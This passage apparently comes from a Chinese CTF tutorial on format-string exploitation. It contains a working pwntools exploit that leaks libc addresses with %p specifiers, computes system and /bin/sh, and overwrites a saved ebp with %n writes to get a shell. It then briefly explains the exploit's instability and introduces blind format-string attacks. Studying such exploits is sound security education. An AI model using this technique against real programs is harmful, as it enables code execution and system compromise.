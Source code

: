 ```python

createcontact(io,"1","1","111","%31$paaaa")
printcontact(io)
libc_start_main = int(io.recvuntil('aaaa', drop=True), 16)-241
log.success('get libc_start_main addr: ' + hex(libc_start_main))
libc_base=libc_start_main-libc.symbols["__libc_start_main"]
system=libc_base+libc.symbols["system"]
binsh=libc_base+next(libc.search("/bin/sh"))
log.success("system: "+hex(system))
log.success("binsh: "+hex(binsh))

payload = '%6$p%11$pccc'+p32(system)+'bbbb'+p32(binsh)+"dddd"
createcontact(io,'2', '2', '111', payload)
printcontact(io)
io.recvuntil('Description: ')
data = io.recvuntil('ccc', drop=True)
data = data.split('0x')
print data
ebp_addr = int(data[1], 16)
heap_addr = int(data[2], 16)+12
log.success("ebp: "+hex(system))
log.success("heap: "+hex(heap_addr))

part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'

#payload=fmtstr_payload(6,{ebp_addr:heap_addr})
##print payload
createcontact(io,'3333', '123456789', '300', payload)
printcontact(io)
io.recvuntil('Description: ')
io.recvuntil('Description: ')
##gdb.attach(sh)
log.success("get shell")
io.recvuntil('>>> ')
##get shell
io.sendline('5')
io.interactive()
```

需要注意的是，这样并不能稳定得到 shell，因为我们一次性输入了太长的字符串。但是我们又没有办法在前面控制所想要输入的地址。只能这样了。

为什么需要打印这么多呢？因为格式化字符串不在栈上，所以就算我们得到了需要更改的ebp的地址，也没有办法去把这个地址写到栈上，利用$符号去定位他；因为没有办法定位，所以没有办法用l\ll等方式去写这个地址，所以只能打印很多。

## 格式化字符串盲打

### 原理

所谓格式化字符串盲打指的是只给出可交互的 ip 地址与端口，不给出对应的 binary 文件来让我们进行 pwn，其实这个和 BROP 差不多，不过 BROP 利用的是栈溢出，而这里我们利用的是格式化字符串漏洞。一般来说，我们按照如下步骤进行
